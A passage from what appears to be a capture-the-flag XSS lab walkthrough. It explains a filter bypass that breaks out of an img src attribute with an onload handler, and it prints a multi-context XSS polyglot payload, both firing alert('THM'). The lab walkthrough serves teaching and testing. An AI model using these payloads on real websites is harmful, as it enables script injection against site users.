 ### Level Six: Character Filtering and Event Handlers

**Scenario**: Angular brackets (`<` and `>`) are filtered, preventing tag creation

**Context**: Input reflected in an image tag
```html
<img src="USER_INPUT_HERE">
```

**Problem**: Cannot create new tags due to character filtering

**Solution**: Use existing tag attributes for code execution
```javascript
/images/cat.jpg" onload="alert('THM');
```

**How it works**:
- `"` closes the src attribute
- `onload="alert('THM');"` adds an event handler
- Event executes when the image loads

**Result**:
```html
<img src="/images/cat.jpg" onload="alert('THM');">
```

### XSS Polyglots

**What is a Polyglot?**
An XSS polyglot is a string of text that can escape attributes, tags, and bypass filters all in one payload. It's designed to work across multiple contexts without modification.

**Universal Polyglot Example**:
```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

**Polyglot Benefits**:
- Works across multiple injection contexts
- Bypasses various filtering mechanisms
- Saves time during testing by providing universal payload
- Demonstrates advanced understanding of XSS techniques

### Task Challenge

**Question**: What is the flag you received from level six?

**Answer**: [Flag obtained after completing all six levels]

**Process**: Complete each level systematically, adapting payloads to the specific injection context and filtering mechanisms.

---

## Task 8: Practical Example (Blind XSS) - Real-World Application
